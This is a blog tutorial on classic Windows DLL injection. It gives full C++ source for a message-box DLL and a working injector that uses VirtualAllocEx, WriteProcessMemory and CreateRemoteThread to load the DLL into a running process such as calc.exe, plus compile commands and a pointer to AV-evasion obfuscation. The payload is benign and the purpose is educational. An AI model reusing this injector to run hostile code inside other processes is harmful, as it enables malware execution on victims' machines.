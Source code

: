 ```yaml
---
title:  "Classic DLL injection into the process. Simple C++ malware."
date:   2021-09-20 10:00:00 +0600
header:
  teaser: "/assets/images/7/2021-09-20_15-01.png"
categories:
  - tutorial
tags:
  - dll injection
  - windows
  - malware
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![DLL injection](/assets/images/7/2021-09-20_15-01.png){:class="img-responsive"}

This post is a Proof of Concept and is for educational purposes only.   
Author takes no responsibility of any damage you cause.

In this post we will discuss about a classic DLL injection technique which are use debugging API.

About classic code injection I wrote in [this](/tutorial/2021/09/18/malware-injection-1.html) post.

Firstly, let's go to prepare our DLL.       

There are slight difference in writing C code for `exe` and `DLL`. The basic difference is how you call you code in your module or program. In `exe` case there should be a function called `main` which is being called by the OS loader when it finishes all in initialization if a new process. At this point your program starts its execution when the OS loader finishes its job.

On the other hand with the `DLL`'s when you want to run your program as a dynamic library, it's a slighty different way, so the loader has already created process in memory and for some reason that process needs your DLL or any other DLL to be load it into the process and it might be due to the function your DLL implements.

So *exe need a main function and DLL's need DLLMain function*   
Basically that's the simplest difference.

For simplicity, we create DLL which just pop-up a message box:

```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

It only consists of `DllMain` which is the main function of DLL library. It doesn't declare any exported functions which is what legitimate DLLs normally do. `DllMain` code is executed right after DLL is loaded into the process memory.

This is important in the context of DLL Injection, as we are looking for simplest way to execute code in the context of other process. That is why most of malicious Dlls which are being injected have most of the malicious code in `DllMain`. There are ways to force a process to run exported function, but writing your code in `DllMain` is usually the simplest solution to get code execution.

When run in injected process it should display our message: "Meow from evil.dll!", so we will know that injection was successful. Now we can compile it (on attacker's machine):     

```bash
x86_64-w64-mingw32-g++ -shared -o evil.dll evil.cpp -fpermissive
```

![DLL compile](/assets/images/7/2021-09-20_17-01.png){:class="img-responsive"}

and put it in a directory of our choice (victim's machine):
![put DLL](/assets/images/7/2021-09-20_17-09.png){:class="img-responsive"}

Now we only need a code which will inject this library into the process of our choosing.

In our case we are going talk about classic DLL injection. We allocate an empty buffer of a size at least the length of the path of our DLL from disk. And then we copy the path to this buffer.

```cpp
/*
* evil_inj.cpp
* classic DLL injection example
* author: @cocomelonc
* https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // parse process ID
  if ( atoi(argv[1]) == 0) {
      printf("PID not found :( exiting...\n");
      return -1;
  }
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}

```

It's pretty simple as you can see. It's same as in my [code injection](/tutorial/2021/09/18/malware-injection-1.html) post. The only difference is we add path of our DLL from disk **(1)** and before we finally inject and run our DLL - we need a memory address of `LoadLibraryA`, as this will be an API call that we will execute in the context of the victim process to load our DLL **(2)**:

![LoadLibraryA](/assets/images/7/2021-09-20_18-11.png){:class="img-responsive"}

So finally after we understood entire code of the injector, we can test it.
Compile it:
```bash
x86_64-w64-mingw32-gcc -O2 evil_inj.cpp -o inj.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive >/dev/null 2>&1
```
![compile injector](/assets/images/7/2021-09-20_18-20.png){:class="img-responsive"}

Let's first launch a `calc.exe` instance and then execute our program:

![run injector](/assets/images/7/2021-09-20_18-25.png){:class="img-responsive"}

To verify our DLL is indeed injected into `calc.exe` process we can use Process Hacker.

![Process Hacker](/assets/images/7/2021-09-22_09-03.png){:class="img-responsive"}

In another memory section we can see:
![Process Hacker 2](/assets/images/7/2021-09-22_09-23.png){:class="img-responsive"}

It seems our simple injection logic worked! This is just a simplest way to inject a DLL to another process but in many cases it is sufficient and very useful.

If you want you can also add function call obfuscation like [this](/tutorial/2021/09/06/simple-malware-av-evasion-2.html) post.

[VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)   
[CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)   
[OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)    
[GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)     
[LoadLibraryA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)

[Source code in Github](https://github.com/cocomelonc/2021-09-24-injection-2)

In the future I will try to figure out more advanced code injection techniques.

Thanks for your time and good bye!   
*PS. All drawings and screenshots are mine*
